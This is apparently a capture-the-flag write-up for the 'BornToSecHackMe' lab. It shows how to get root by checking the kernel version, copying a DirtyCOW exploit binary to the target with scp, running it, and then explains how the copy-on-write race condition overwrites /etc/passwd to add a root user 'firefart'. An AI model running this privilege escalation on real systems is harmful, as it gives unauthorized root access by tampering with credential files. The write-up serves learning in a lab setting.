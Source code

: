 # DirtyCOW Exploit

When connected to laurie through SSH, we can check the kernel version, which is `3.2.0`.  
```
laurie@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```

This version is prone to a vulnerability, through the DirtyCow exploit.  
<!-- https://www.exploit-db.com/exploits/40839 -->

# Steps

We copie the exploit binary, which contains the Dirty Cow exploit, into Laurie's home.  
`scp exploit laurie@192.168.56.105:/home/laurie`

Then, we execute it. After some time, we gain root access:  
```
laurie@BornToSecHackMe:~$ ./exploit
[...]
Password:
root

firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```

# Exploit explanation

There is a race condition in the implementation of the copy-on-write (COW) mechanism in the kernel's memory-management subsystem.  
Because of the race condition, with the right timing, a local attacker can exploit the copy-on-write mechanism to turn a read-only mapping of a file into a writable mapping.  
We can then modify the `/etc/passwd` file.  
This exploit replaces in `/etc/passwd` the user `root` by a new user called `firefart`, with a new password (set as `root` in the exploit).  